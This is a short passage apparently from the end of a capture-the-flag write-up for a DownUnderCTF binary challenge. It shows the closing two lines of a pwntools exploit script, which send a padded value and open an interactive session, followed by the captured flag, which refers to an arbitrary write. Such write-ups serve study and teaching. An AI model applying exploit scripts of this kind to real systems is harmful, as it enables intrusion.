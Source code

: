 ```python
r.send(str(exit).rjust(9,'0'))

r.interactive()
```

```
DUCTF{arb1tr4ry_wr1t3_1s_str0ng_www}
```
